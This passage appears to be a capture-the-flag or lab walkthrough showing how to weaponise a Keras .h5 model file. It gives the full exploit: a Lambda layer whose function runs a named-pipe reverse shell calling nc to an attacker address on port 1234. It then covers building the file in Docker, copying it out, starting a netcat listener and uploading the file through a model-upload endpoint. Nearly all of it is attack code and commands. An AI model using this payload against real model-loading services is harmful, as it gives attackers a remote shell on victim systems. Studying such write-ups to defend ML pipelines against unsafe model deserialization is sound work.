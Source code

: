With the following content:

```
import tensorflow as tf

def exploit(x):
    import os
    os.system("rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.112 1234 > /tmp/f")
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

Run the container again, this time mounting the file into it:

```
docker run -it --name mycontainer -v ~/borrar/exploit_gen.py:/code/exploit_gen.py my-tf-image
```

Inside the container:

```
root@46a37b8786c4:/code# python3 exploit_gen.py
```

Output notes:

- TensorFlow loads successfully.
- Warning: `nc` is not found, but the file `exploit.h5` is created successfully.
    

```
root@46a37b8786c4:/code# exit
```

Back on the **host** (not inside Docker):

```
docker cp mycontainer:/code/exploit.h5 ~/borrar/exploit.h5
```

Now the payload is saved to `~/borrar/exploit.h5`.

Set up a listener:

```
nc -lnvp 1234
```

Upload the `.h5` file to the target:

```
POST /upload_model HTTP/1.1
...
Content-Disposition: form-data; name="model_file"; filename="exploit.h5"
Content-Type: application/octet-stream

[SNIPPED]
...
```
